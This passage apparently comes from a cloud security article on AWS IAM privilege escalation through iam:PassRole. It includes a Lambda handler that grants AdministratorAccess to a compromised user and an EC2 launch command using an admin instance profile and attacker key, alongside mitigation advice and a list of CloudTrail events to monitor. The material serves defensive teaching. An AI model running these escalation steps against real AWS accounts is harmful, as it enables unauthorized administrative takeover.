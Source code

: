 > Organizations using Service Control Policies (SCPs) or explicit Deny conditions in trust policies can mitigate this attack by preventing modifications to sensitive role assumptions (e.g., admin or security roles).

### 5\. Service-Based Escalation Techniques

Several AWS services can be leveraged for privilege escalation when combined with `iam:PassRole` permissions.

**Lambda Function Escalation:**

```python
import boto3

def lambda_handler(event, context):
    # Code executed with elevated role permissions
    iam = boto3.client('iam')
    
    # Attach admin policy to original user
    iam.attach_user_policy(
        UserName='compromised-user',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    
    return {'statusCode': 200, 'body': 'Privilege escalated'}
```

**EC2 Instance Profile Abuse:**

```bash
# Launch EC2 with privileged instance profile
aws ec2 run-instances \
    --image-id ami-12345678 \
    --instance-type t2.micro \
    --iam-instance-profile Name=AdminInstanceProfile \
    --user-data file://escalation-script.sh \
    --key-name attacker-key
```

> Beyond Lambda and EC2, other AWS services such as CloudFormation, Glue, SageMaker, and Step Functions can also be abused when combined with `iam:PassRole` permissions, depending on which services are enabled in the environment.

## Detection and Monitoring Strategies

### CloudTrail Event Analysis

Effective detection requires monitoring specific CloudTrail events that indicate potential privilege escalation:

**High-Priority Events:**

* `CreatePolicyVersion` with `setAsDefault: true`
    
* `AttachUserPolicy`, `AttachRolePolicy`, `AttachGroupPolicy`
    